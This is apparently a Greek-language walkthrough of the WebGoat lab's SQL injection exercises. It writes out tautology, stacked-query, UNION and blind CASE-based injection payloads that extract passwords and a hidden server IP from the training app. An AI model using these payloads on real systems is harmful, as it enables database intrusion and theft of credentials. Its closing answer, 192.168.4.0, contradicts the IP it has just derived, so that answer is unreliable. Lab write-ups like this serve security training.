



# SQL Injection

## Βασική Εισαγωγή SQL Injection

1. Εισαγάγετε το `Smith` ως ερώτημα.
2. Τα επιστρεφόμενα δεδομένα περιέχουν πληροφορίες για τον Jon Smith.
   
3. Όταν η εισαγωγή SQL γίνεται σύμφωνα με το μάθημα, ανακτώνται όλες οι εγγραφές του πίνακα χρηστών:
4. Εισαγάγετε `Smith' or '1'='1` ως ερώτημα (προσοχή: μην προσθέσετε επιπλέον μονό εισαγωγικό στο τέλος, καθώς περιλαμβάνεται ήδη στο ερώτημα).
5. Τα επιστρεφόμενα δεδομένα περιέχουν όλες τις εγγραφές από τον πίνακα χρηστών.
      

## Για Αριθμητική Εισαγωγή SQL

1. Εισαγάγετε `1 or 1=1` ή ακόμα και `1 or true` ως ερώτημα.
2. Τα επιστρεφόμενα δεδομένα περιέχουν όλες τις εγγραφές από τον πίνακα χρηστών.
   

## Προηγμένη SQL

### Επίθεση Union

#### Γρήγορη Απάντηση
Γράψτε το παρακάτω ερώτημα:
```sql
asd' or true; select * from user_system_data; --
```
* Το όνομα του πίνακα είναι προεπιλεγμένο και μπορεί να βρεθεί στο διαδίκτυο.

#### Αναλυτική Απάντηση
1. Η πρώτη προσπάθεια ήταν να εισαχθεί το `Smith`, καθώς είναι υπαρκτός χρήστης, το οποίο επέστρεψε αποτελέσματα παρόμοια με την προηγούμενη άσκηση. Αυτό μας δίνει πληροφορίες για τη δομή του πίνακα χρηστών: έχει 7 στήλες: `USERID`, `FIRST_NAME`, `LAST_NAME`, `CC_NUMBER`, `CC_TYPE`, `COOKIE`, `LOGIN_COUNT`.
2. Στη δεύτερη προσπάθεια, χρησιμοποιήθηκε η εντολή UNION:
   ```sql
   Smith' union all select userid, user_name, user_name, user_name, user_name, password, cookie from user_system_data; --
   ```
   με αίτημα για 7 στήλες (επαναλαμβάνοντας το `user_name` αρκετές φορές).
3. Ωστόσο, το αποτέλεσμα εμφανίζει το μήνυμα:
   
4. Ας δοκιμάσουμε τώρα ένα διαφορετικό ερώτημα:
   ```sql
   Smith' union select 1, password, password, password, password, password, 1 from user_system_data; --
   ```
   Αποδεικνύεται ότι οι στήλες `USERID` και `LOGIN_COUNT` είναι αριθμητικοί τύποι, ενώ οι υπόλοιπες στήλες του πίνακα χρηστών είναι συμβολοσειρές.
   

## SQL Injection (Μέτρα Αντιμετώπισης)

* Κάνοντας κλικ στη στήλη ταξινόμησης, εκτελείται ένα αίτημα στο:
  ```
  http://localhost:8080/WebGoat/SqlInjection/servers?column=ip
  ```
  Το αίτημα αυτό μπορεί να εκμεταλλευτεί με την υποκλοπή του μέσω του ZAP και την παροχή μιας προετοιμασμένης συμβολοσειράς ως `ip`.

* Για να αποκτήσουμε μια ιδέα για τη διεύθυνση IP του `webgoat-prd`, πρέπει πρώτα να βρούμε το όνομα του πίνακα και τη στήλη της IP. Η προφανής εικασία είναι `servers` και `ip`:
  ```
  http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)
  ```
* Εάν το όνομα του πίνακα και της στήλης είναι σωστά, ο πίνακας θα ταξινομηθεί βάσει των `id`.
* Μετά την υποκλοπή και την τροποποίηση του αιτήματος, ο πίνακας ταξινομείται βάσει `id`, άρα η εικασία ήταν σωστή.
* Για να ελέγξουμε τη λογική μας, ας στείλουμε το αίτημα:
  ```
  http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM whatever WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)
  ```
  (το `servers` αντικαταστάθηκε με `whatever`).
* Αυτό επιστρέφει τη σελίδα σφάλματος:
  ```html
  <html><body><h1>Whitelabel Error Page</h1>
    <p>This application has no explicit mapping for /error, so you are seeing this as a fallback.</p>
    <div id='created'>Thu Mar 08 17:36:52 UTC 2018</div>
    <div>There was an unexpected error (type=Internal Server Error, status=500).</div>
    <div>user lacks privilege or object not found: SERVER</div>
  </body></html>
  ```

Τώρα, γνωρίζοντας τον πίνακα και τη στήλη, ας προσπαθήσουμε να αποκτήσουμε μια ιδέα για την IP του `webgoat-prd`:
1. ```
   http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-prd') LIKE '192.168.%' THEN id ELSE hostname END)
   ```
   ταξινομείται βάσει `hostname` → λανθασμένη εικασία.
2. `LIKE '192.%'`, ταξινομείται βάσει `hostname` → λανθασμένη εικασία.
3. `LIKE '1%'`, ταξινομείται βάσει `ip` → σωστή εικασία! Τώρα μπορούμε να συνεχίσουμε κατά μία θέση.
4. `LIKE '10%'`, ταξινομείται βάσει `ip` → σωστή εικασία!
5. Μετά από αρκετές προσπάθειες…
6. `LIKE '104.130.219.202'`, ταξινομείται βάσει `ip` → σωστή εικασία! Αυτή είναι η πλήρης διεύθυνση IP.
Με γνωστή την `IP 104.130.219.202`, παρέχοντάς την στο πεδίο εισαγωγής επιστρέφεται:
   
7. Λύση: `192.168.4.0`
